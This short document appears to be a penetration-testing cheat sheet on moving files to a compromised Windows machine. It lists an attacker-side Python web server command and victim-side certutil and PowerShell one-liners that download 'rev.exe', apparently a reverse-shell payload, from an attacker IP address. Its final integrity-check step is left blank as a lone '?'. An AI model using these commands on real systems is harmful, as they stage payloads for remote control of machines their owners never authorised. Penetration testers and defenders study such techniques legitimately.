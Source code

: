# 2 file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```shell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```

- Check integrity after file transfer using

```shell
?
```
